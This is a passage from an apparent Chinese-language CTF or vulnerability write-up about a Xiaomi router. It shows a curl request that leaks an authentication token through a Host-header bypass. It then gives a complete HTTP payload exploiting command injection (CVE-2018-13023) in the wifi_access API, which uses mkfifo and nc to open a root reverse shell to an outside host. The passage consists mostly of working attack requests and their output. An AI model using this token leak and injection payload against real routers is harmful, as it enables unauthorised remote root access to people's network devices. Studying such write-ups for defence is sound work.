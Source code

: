 漏洞验证成功返回token

```
(base) syc@ubuntu:~/Desktop/miroute/qwb-miroute$ curl -v http://192.168.31.1:8197/cgi-bin/luci/api/xqsystem/renew_token -H 'Host: localhost'
*   Trying 192.168.31.1:8197...
* Connected to 192.168.31.1 (192.168.31.1) port 8197 (#0)
&gt; GET /cgi-bin/luci/api/xqsystem/renew_token HTTP/1.1
&gt; Host: localhost
&gt; User-Agent: curl/7.71.1
&gt; Accept: */*
&gt; 
* Mark bundle as not supporting multiuse
&lt; HTTP/1.1 200 OK
&lt; Content-Type: text/html; charset=utf-8
&lt; Transfer-Encoding: chunked
&lt; Connection: close
&lt; Tx-Server: MiXr
&lt; Date: Sun, 11 Jul 2021 03:55:43 GMT
&lt; Cache-Control: no-cache
&lt; Expires: Thu, 01 Jan 1970 00:00:01 GMT
&lt; MiCGI-Switch: 0 1
&lt; MiCGI-Client-Ip: 127.0.0.1
&lt; MiCGI-Host: localhost
&lt; MiCGI-Http-Host: localhost
&lt; MiCGI-Server-Ip: 127.0.0.1
&lt; MiCGI-Server-Port: 80
&lt; MiCGI-Status: CGI
&lt; MiCGI-Preload: no
&lt; XQ-Mark: subfilter
&lt; 
* Closing connection 0
`{`"token":"1182ef5f4df21732ef537e0ec7698e78","code":0`}`(base)
```

通过泄露Token后，发现Command Injection in wifi_access Functionality (CVE-2018-13023)漏洞没有被修复，利用这个CVE进行漏洞注入，即可获得root权限的反射shell，具体的payload如下：

```
GET /cgi-bin/luci/;stok=bf632940b33ef5ffdf7b55b6c80ae94b/api/misns/wifi_access?mac=00:00:00:00:00:00&amp;sns=sns&amp;grant=1&amp;guest_user_id=guid&amp;timeout=%3bmkfifo+/tmp/p%3bcat+/tmp/p|/bin/sh+-i+2&gt;%261|nc+192.168.31.62+8888+&gt;/tmp/p+%23 HTTP/1.1
Host: localhost
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: */*
Referer: http://192.168.31.1/cgi-bin/luci/web
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close
```
